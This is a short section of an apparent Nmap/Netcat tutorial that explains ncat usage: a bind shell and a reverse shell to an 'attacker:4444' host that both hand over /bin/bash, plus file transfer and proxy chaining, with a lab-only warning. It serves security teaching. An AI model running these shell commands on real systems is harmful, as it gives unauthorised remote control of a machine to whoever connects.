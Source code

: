 ## Netcat Bonus: Interactive Probing & Pivoting

Once you've identified a live host and open port, use Ncat to:

1. **Bind Shell** (Target listens, you connect)
   ```bash
   ncat -l -p 4444 -e /bin/bash
   ```
   **Command breakdown:**
   - `-l` = Listen mode (act as server)
   - `-p 4444` = Listen on port 4444
   - `-e /bin/bash` = Execute bash when connection received

2. **Reverse Shell** (You listen, target connects)
   ```bash
   ncat attacker:4444 -e /bin/bash
   ```
   **Command breakdown:**
   - `attacker:4444` = Connect to attacker's IP on port 4444
   - `-e /bin/bash` = Execute bash and send I/O over connection

3. **File Transfer** (Simple file sharing)
   ```bash
   # Receiver (run first)
   ncat -l 5555 > received.file
   
   # Sender (run second)  
   ncat <target> 5555 < send.file
   ```
   **How it works:**
   - Receiver listens on port 5555, saves incoming data to file
   - Sender connects and transmits file contents
   - Connection closes when file transfer completes

4. **Proxy Chaining** (Route through intermediary)
   ```bash
   ncat --proxy 10.0.0.5:8080 --proxy-type http target.com 443
   ```
   **Command breakdown:**
   - `--proxy 10.0.0.5:8080` = Route through proxy server
   - `--proxy-type http` = Use HTTP CONNECT method
   - `target.com 443` = Final destination

⚠️ **Use these only in your own lab networks or with explicit permission.**

> 💡 **Want to learn more Netcat techniques?** Check out our [Netcat Learning Guide](../netcat/) for comprehensive coverage including advanced pivoting, data exfiltration, and network troubleshooting.

---

With **Further Probing** complete, you now have end-to-end mastery of Nmap's core phases—ready to automate, integrate, or teach these techniques. 🎉
